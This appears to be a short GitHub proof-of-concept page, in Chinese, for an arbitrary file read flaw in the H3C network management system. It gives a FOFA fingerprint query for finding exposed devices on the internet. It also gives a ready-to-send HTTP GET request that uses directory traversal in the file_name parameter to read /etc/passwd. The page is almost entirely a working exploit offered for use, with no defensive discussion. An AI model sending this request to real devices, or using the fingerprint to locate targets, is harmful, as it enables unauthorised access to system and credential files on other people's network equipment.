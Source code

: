 # H3C网络管理系统任意文件读取漏洞


## H3C网络管理系统任意文件读取漏洞

## fofa
```
body="webui/js/jquerylib/jquery-1.7.2.min.js"
```

## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1

```
![image](https://github.com/wy876/POC/assets/139549762/e5bc6b46-2181-4d89-bab2-b6c1e2db7bca)

![image](https://github.com/wy876/POC/assets/139549762/d94b6fad-82fa-49d5-b236-c3a148380aca)

